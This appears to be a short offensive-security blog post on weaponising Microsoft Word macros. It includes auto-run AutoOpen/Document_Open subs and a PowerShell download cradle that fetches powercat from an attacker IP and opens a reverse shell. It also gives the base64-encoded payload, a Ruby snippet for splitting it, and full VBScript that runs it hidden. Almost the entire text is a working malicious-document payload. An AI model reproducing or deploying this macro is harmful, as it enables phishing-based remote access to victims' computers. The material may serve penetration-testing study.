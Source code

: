 ```yaml
---
layout: post
title: office macros
titledate: 09/05/23
tags: ["infosec","offsec", "macros", "powershell", "shell"]
---
```


when creating a macro in word

view -> macros -> view macros -> TitleMacro and choose your current document from Macros In

AutoOpen and Document_Open are necssary to automatically execute our macro upon the document execution

for our payload we'll download powercat from our hosted web server and base64 it UTF16-LE

  IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.x.x/powercat.ps1');powercat -c 192.168.x.x -p 443 -e powershell

we have a string size limitation so we need to split our string into length of 50

ruby one liner 
  
  payload = SUVYKE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vMTkyLjE2OC40NS4xNTQvcG93ZXJjYXQucHMxJyk7cG93ZXJjYXQgLWMgMTkyLjE2OC40NS4xNTQgLXAgNDQzIC1lIHBvd2Vyc2hlbGw=

  payload.chars.each_slice(50).map(&:join).each{|arr|p "Str = Str + #{arr}"}
  

'''VBScript
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()
  Dim Str as String

  Str = Str + "powershell.exe -nop -w hidden -enc "
  Str = Str + "SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdA"
  Str = Str + "BlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBE"
  Str = Str + "AG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AH"
  Str = Str + "AAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEANQA0AC8A"
  Str = Str + "cABvAHcAZQByAGMAYQB0AC4AcABzADEAJwApADsAcABvAHcAZQ"
  Str = Str + "ByAGMAYQB0ACAALQBjACAAMQA5ADIALgAxADYAOAAuADQANQAu"
  Str = Str + "ADEANQA0ACAALQBwACAANAA0ADQANAAgAC0AZQAgAHAAbwB3AG"
  Str = Str + "UAcgBzAGgAZQBsAGwA"
  
  CreateObject("Wscript.Shell").Run Str
End Sub
'''